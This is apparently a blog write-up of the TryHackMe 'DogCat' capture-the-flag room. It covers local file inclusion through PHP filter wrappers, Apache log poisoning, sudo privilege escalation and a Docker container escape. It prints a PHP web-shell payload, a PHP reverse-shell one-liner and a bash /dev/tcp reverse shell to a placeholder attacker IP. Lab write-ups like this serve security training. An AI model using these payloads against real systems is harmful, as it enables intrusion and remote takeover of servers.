 ```yaml
---
title: "[EN] - TryHackMe : DogCat writeup "
date: 2019-12-31T17:00:00+02:00
draft: false
tags: ["CTF", "THM", "TryHackMe", "DogCat", "Writeup"]
---
```


Hey, everybody,  
Here is my first writeup post about a CTF, and for the moment, I propose you my solution of the [Dogcat](https://tryhackme.com/room/dogcat) challenge on the TryHackMe website.

The goal of this machine is to get 4 flags, by reading the description of the machine and the twitter post of the box, we may already know that we will have to use a LFI and escape a docker container.

## Recon

When we launch the machine we can directly access it via a web browser, to make sure we are on the right page to operate, we can launch an nmap scan.

```bash
root@kali:~# nmap -sT -T5 -A 10.10.214.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-19 09:09 UTC
Nmap scan report for ip-10-10-214-114.eu-west-1.compute.internal (10.10.214.114)
Host is up (0.00052s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:42:89:24:24:BC (Unknown)
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 3.13 (94%), Linux 3.8 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms ip-10-10-214-114.eu-west-1.compute.internal (10.10.214.114)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.44 seconds
```

Only the port `80`  is open with an `Apache 2.4.38` web server, when you go to the web page, you can see a web page which offers to see a picture of dogs or cats.

The first interesting information that we can retrieve is the parameter, which actually suggests that a LFI is possible, and the version of `PHP` which is in `7.4.3`, an interesting information because with this version it is not possible to exploit a LFI with a null byte (`%00`) or a *path truncation*.

![](/images/2020/ctf/THM_Dogcat_Recon1.png)

The first trivial test is directly to try to load the file `/etc/passwd` :  
`http://10.10.214.114/?view=../../../../../../etc/passwd`

![](/images/2020/ctf/THM_Dogcat_Recon2.png)

But the site forces the user to use the keyword `dog` or `cat`, let's try again:

![](/images/2020/ctf/THM_Dogcat_Recon3.png)

## Exploiting LFI & First flag

Hum interesting, the error message shows that a LFI seems possible, however impossible to load the `/etc/passwd` file because the `.php` extension is automatically added, to get around that we could have used the null byte `%00` character or a path truncation but as I said, it's not possible with this version of PHP, fetching the `index.php` file to start with and see if it's possible to get additional information.

But if you try to directly load the `index.php` file via the URL `http://10.10.214.114/?view=dog../../index` you will get an error :

![](/images/2020/ctf/THM_Dogcat_Exploit1.png)

This is because the site is trying to include the `index.php` page a second time, the trick here is to use the php wrapper `php://filter` and convert the content to base64. Once recovered it is enough to decode it online or directly in your console :

![](/images/2020/ctf/THM_Dogcat_Exploit2.png)

Ok it's possible to retrieve the content of a `php` file, with a bit of guessing we can retrieve the first flag by reaching the page `flag.php` and decoding the retrieved content as for the page `index.php` via the page `http://10.10.214.114/?view=php://filter/convert.base64-encode/resource=dog../../flag`.

![](/images/2020/ctf/THM_Dogcat_Flag1.png)

## Gaining shell & flag 2

By looking for a little other file we don't find much interesting, let's resume our file `index.php`, we can see this interesting little piece of code:

![](/images/2020/ctf/THM_Dogcat_Recon4.png)

For those who are not comfortable with PHP, we can translate this as :
The `ext` parameter will be equal to the `ext` GET parameter, otherwise we'll use `.php`.
And if the GET parameter `view` contains the value `dog` or `cat` we'll look for the page that will contain the value of the GET parameter `view` and `ext` (so either the value provided in the URL or `.php` if no value is provided)

Interesting... Let's try again to load the contents of /etc/passwd by including the GET parameter `ext` and leaving it empty:

`http://10.10.214.114/?view=php://filter/resource=dog../../../../../../etc/passwd&ext=`

Ok good, we got it :

![](/images/2020/ctf/THM_Dogcat_Recon5.png)

We realize that it doesn't contain much interesting stuff, I was hoping to find a specific user in it but that's not the case, so we'll certainly have to get a shell as `wwww-data` and find a way to become `root`.

In our case, if we look for the techniques to obtain a shell with a LFI have fallen on several techniques, for those that seems exploitable in our case I retained :
* RCE via Apache log poisonning
* RCE via `/proc/self/environ`

In our case, it is not possible to load the `/proc/self/environ` file, which begins to confirm the fact that we are partitioned in a docker container.
Let's look at the first case, to succeed we need 2 things:
* Be able to access the apache log file, which is accessible via the url `http://10.10.214.114/?view=php://filter/resource=dog../../../../../../var/log/apache2/access.log&ext=`
* Inject content into it: Can be done by changing our user-agent.

*note: I found the file `/var/log/apache2/access.log` by testing the default paths where the Apache log file can be found.*

Hop, we launch burp, reload the page and intercept the request to include the payload `<?php system($_GET['cmd']);?>` in the user-agent, this will have the effect that each time we load the file `/var/log/apache2/access. log` with the GET parameter `cmd` of our command will be interpreted since the code snippet `<?php system($_GET['cmd']);?>` will be interpreted in the page since it is PHP ...

So like I said, we inject our payload:
![](/images/2020/ctf/THM_Dogcat_Exploit3.png)

Then we can use it by loading the file `/var/log/apache2/access.log` and using the GET parameter `cmd` with the value of the command we want to use :
![](/images/2020/ctf/THM_Dogcat_Exploit4.png)

To be a little more comfortable, it is possible to obtain a shell, we know that PHP is used on the machine so we will directly use a php payload to obtain a reverse-shell via the command `php -r '$sock=fsockopen("{IP_KALI}"",1234);exec("/bin/sh -i <&3 >&3 2>&3");'` such as here (don't forget to listen on the defined port) :

![](/images/2020/ctf/THM_Dogcat_Exploit5.png)

And then we get our first access on the server and we can retrieve the second flag:
![](/images/2020/ctf/THM_Dogcat_Flag2.png)

## PrivEsc & flag 3

For this task I didn't have to look for a long time, a little `sudo -l` allows me to see that a command is executable as root:
![](/images/2020/ctf/THM_Dogcat_Exploit6.png)

A simple search on [https://gtfobins.github.io/](https://gtfobins.github.io/) shows that it is possible to raise your privileges with the command `sudo env /bin/bash`, once root you get the third flag:

![](/images/2020/ctf/THM_Dogcat_Flag3.png)

## Container escape & flag 4

Ok more than the last flag, in order to validate that we are in a docker container we can use the command `hostname` which indicates a weird name that indicates a container name, we can also see the `dockerenv` file at the root, other methods allow us to confirm that we are in a container such as checking cgroups, ...

After searching quite a lot, including the different possible exploits I realized that it was a bad technique, because a lot of commands are not usable on the server (such as basic commands like `wget` etc...) which left me thinking that this was not the right track.

So I manually enumerated the machine, looking for elements that could help me escape the container such as a script via the `find / -type f -name *.sh` command, the first result is the file `/opt/backups/backup.sh`, hum interesting, looking at its contents :

![](/images/2020/ctf/THM_Dogcat_Recon6.png)

Interesting, I don't know much about docker but from what I understand, it's the root user of the host machine that makes a backup, I may be wrong but I understand that there is a `/root/backup` mount point on the host machine to the container.

As it is a backup script, we can imagine that it is executed periodically, so we can modify its contents to try to get a shell on the host machine.

So we will have to modify the `backup.sh` file with the following content :
```bash
#!/bin/bash
bash -i >& /dev/tcp/{KALI IP}/8080 0>&1
```

And tap into our Kali machine.

![](/images/2020/ctf/THM_Dogcat_Exploit7.png)

Here we go, root on the host machine, we just need to retrieve the last flag:
![](/images/2020/ctf/THM_Dogcat_Flag4.png)